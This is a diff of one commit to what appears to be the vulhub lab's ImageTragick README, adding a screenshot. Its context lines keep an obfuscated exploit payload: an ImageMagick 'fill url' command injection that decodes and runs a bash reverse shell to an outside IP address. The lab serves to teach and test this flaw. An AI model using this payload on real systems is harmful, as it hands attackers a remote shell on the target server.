

Before and after one commit to vulhub/vulhub, a Markdown page: imagetragick/README.md, the part around the change. GitHub-like rendering; pictures changed too: imagetragick/3.png (added); blank space fills up the shorter version.

Commit message:
reverse shell capture

````diff
--- a/imagetragick/README.md
+++ b/imagetragick/README.md
@@ -63,3 +63,5 @@ viewbox 0 0 640 480
 fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
 pop graphic-context
 ```
+
+![](3.png)
````
